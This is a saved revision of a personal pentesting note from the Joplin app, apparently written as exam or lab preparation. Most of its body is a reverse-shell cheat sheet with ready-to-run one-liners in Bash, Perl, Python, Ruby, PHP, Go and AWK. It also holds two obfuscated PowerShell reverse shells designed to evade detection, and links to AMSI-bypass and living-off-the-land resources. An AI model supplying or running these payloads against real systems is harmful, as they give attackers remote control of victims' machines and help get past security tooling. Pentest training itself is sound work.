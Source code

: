 id: 091f6009ec12482dbf08f4fba1727f0e
parent_id: 
item_type: 1
item_id: 83bdabe39eb548a7b6d0737c2851b62e
item_updated_time: 1651131831262
title_diff: "[{\"diffs\":[[1,\"1. General Notes\\\r\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":17}]"
body_diff: "[{\"diffs\":[[1,\"## HAVE TWO REVERSE SHELLS RUNNING SO IN CASE THE EXPLOIT DOESN't WORK YOU DUN HAVE TO EXPLOIT AGAIN\\\n\\\n## Pre-requisites for runninging exploits\\\n\\\n- Check the version of the operating system.\\\n- Check the software version.\\\n- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).\\\n- If you have an exploit, is there a Metasploit Module for it?\\\n\\\n## Default Credentials\\\n\\\n- https://cirt.net/passwords\\\n- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials\\\n\\\n## Reverse Shells\\\n\\\nBash:\\\n\\\n- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1\\\n\\\nPerl:\\\n\\\n```\\\nperl -e 'use Socket;$i=\\\"IP ADDRESS\\\";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\\\"tcp\\\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\\\">&S\\\");open(STDOUT,\\\">&S\\\");open(STDERR,\\\">&S\\\");exec(\\\"/bin/sh -i\\\");};'\\\n```\\\n\\\nPython:\\\n\\\n- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\\\\_INET,socket.SOCK\\\\_STREAM);s.connect((\\\"IP ADDRESS\\\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\\\\[\\\"/bin/sh\\\",\\\"-i\\\"\\\\]);'\\\n\\\nIPv6:\\\n\\\n- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF\\\\_INET6,socket.SOCK\\\\_STREAM);s.connect((\\\"dead:beef:2::125c\\\",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn(\\\"/bin/sh\\\");'\\\n\\\nRuby:\\\n\\\n- ruby -rsocket -e'f=TCPSocket.open(\\\"IP ADDRESS\\\",1234).to_i;exec sprintf(\\\"/bin/sh -i &lt;&%d &gt;&%d 2>&%d\\\",f,f,f)'\\\n- ruby -rsocket -e 'exit if fork;c=TCPSocket.new(\\\"\\\\[IPADDR\\\\]\\\",\\\"\\\\[PORT\\\\]\\\");while(cmd=c.gets);IO.popen(cmd,\\\"r\\\"){|io|c.print io.read}end'\\\n\\\nPHP:\\\n\\\nPentest Monkey Reverse Shell for PHP:\\\nIn Kali:\\\n\\\n/usr/share/webshells/php/php-reverse-shell.php\\\n\\\nLink: http://pentestmonkey.net/tools/web-shells/php-reverse-shell\\\n\\\n- php -r '$sock=fsockopen(\\\"IP ADDRESS\\\",1234);exec(\\\"/bin/sh -i &lt;&3 &gt;&3 2>&3\\\");'\\\n\\\nWindows Powershell Oneliner:\\\n\\\nNote: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you.\\\n\\\n```\\\n# Offsec-callback-v2\\\n$ezYSZf = & ((Get-Command \\\"New-ScheduledJobOption\\\").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})(\\\"Check.for.Callback.Connection\\\".Replace(\\\"Check\\\",127).Replace(\\\"For\\\",0+255-255).Replace(\\\"Callback\\\", 0+234-234).Replace(\\\"Connection\\\",0+0+0+1),(443*2-443));\\\n$VXm = $ezYSZf.GetStream();\\\n# checkin to target\\\n[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};\\\nwhile(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)\\\n{;\\\n$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);\\\n$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );\\\n# AND\\\n$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));\\\n$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);\\\n$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()\\\n};\\\nStart-Sleep -Seconds 5\\\n# checkout of target\\\n$ezYSZf.Close()\\\n```\\\n\\\nLinux Powershell Oneliner:\\\n\\\n```\\\n$ezYSZf = & ((\\\"New-ScheduledJobOption\\\")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})(\\\"Stay.Off.Ronins.Lawn\\\".Replace(\\\"Stay\\\",127).Replace(\\\"Off\\\",0+255-255).Replace(\\\"Ronins\\\", 0+1-1).Replace(\\\"Lawn\\\",0+0+0+1),(443*2-443));\\\n$VXm = $ezYSZf.GetStream();\\\n[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};\\\nwhile(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)\\\n{;\\\n$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);\\\n$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );\\\n$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));\\\n$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);\\\n$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()\\\n};\\\n$ezYSZf.Close()\\\n```\\\n\\\nGolang:\\\n\\\n- echo 'package main;import\\\"os/exec\\\";import\\\"net\\\";func main(){c,_:=net.Dial(\\\"tcp\\\",\\\"IP ADDRESS:8080\\\");cmd:=exec.Command(\\\"/bin/sh\\\");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go\\\n\\\nAWK:\\\n\\\n- awk 'BEGIN {s = \\\"/inet/tcp/0/IP ADDRESS/4242\\\"; while(42) { do{ printf \\\"shell>\\\" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != \\\"exit\\\") close(s); }}' /dev/null\\\n\\\nOther Reverse Shell:\\\n[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)\\\n\\\n## Other Resources\\\n\\\n- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell\\\n- - For binaries, script, libraries of common applications in Windows to do things:\\\n        \\\\- [https://lolbas-project.github.io/#](https://lolbas-project.github.io/)\\\n        \\\n        E.g. CertUtil.exe\\\n        \\\n\\\n![29d1cb0d905ec0a949bd45b285bf0eb2.png](:/129afa1ffd454b0b8972c7fc8f84c394)\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":5569}]"
metadata_diff: {"new":{"id":"83bdabe39eb548a7b6d0737c2851b62e","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1617247637997,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-04-28T07:51:47.254Z
created_time: 2022-04-28T07:51:47.254Z
type_: 13